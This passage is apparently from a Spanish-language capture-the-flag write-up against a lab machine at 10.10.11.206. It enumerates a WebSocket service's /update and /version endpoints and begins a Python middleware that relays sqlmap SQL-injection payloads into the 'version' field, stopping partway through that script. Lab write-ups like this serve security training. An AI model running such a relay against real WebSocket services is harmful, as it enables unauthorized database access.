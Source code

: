 Output:

```python
--- Message sent ---
 {"test": "test"}
++Sent raw: b'\x81\x90\xde[\x04G\xa5yp"\xad/&}\xfeyp"\xad/&:'
++Sent decoded: fin=1 opcode=1 data=b'{"test": "test"}'
++Rcv raw: b'\x81R{"paths": {"/update": "Check for updates", "/version": "Get version information"}}'
++Rcv decoded: fin=1 opcode=1 data=b'{"paths": {"/update": "Check for updates", "/version": "Get version information"}}'
Message received: {"paths": {"/update": "Check for updates", "/version": "Get version information"}}
```

Viendo esto (`data=b'{"paths": {"/update": "Check for updates", "/version": "Get version information"}}'`), vamos modificar el script para ver version y paths:

```python

def on_open(ws):
    print("Established connection")

    request = {"version": "1.0"}
    ws.send(json.dumps(request))

if __name__ == "__main__":
    websocket.enableTrace(True)
    ws = websocket.WebSocketApp("ws://10.10.11.206:5789/update", ...)
```

En primer lugar probaremos con `url/update` por si nos reporta cuál es la versión actual. El output es el siguiente:

```
data=b'{"message": "Version 0.0.2 is available to download!"}'
```

Así que ahora vamos ha modificar el `request = {"version": "1.0"}` por la versión actual: `request = {"version": "0.0.2"}` para ver que nos reporta:

Output:  `data=b'{"message": "You have the latest version installed!"}`

Modificaremos el `url/update` por `url/version` dejando el `request` con la versión más nueva por si nos reporta información sobre la versión:

Output:  `Message received: {"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}`

Viendo estas respuestas, vamos ha intentar hacer algo de `sqli`, para ello, vamo ha montar un servidor http en el puerto 80 (local) donde usaremos `sqlmap` para que valla envíando `payloads`, el script está basado en el script de  [**ytnuobgub**](https://ytnuobgub.gitbook.io/htb/open-seasons-beta/socket). En resumidas cuentas este script lo que hace es crear un servidor de `middleware` que permita enviar parámetros (que enviará `sqlmap`) de `solicitud HTTP` al `server WebSocket` recibir la respuesta correspondiente.

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import urlparse
from websocket import create_connection
import json, webbrowser

ws_server = "ws://10.10.11.206:5789/version"

def sendPayloads(payload):
	ws = create_connection(ws_server)
    
	request = {"version": payload}
	ws.send(json.dumps(request))
```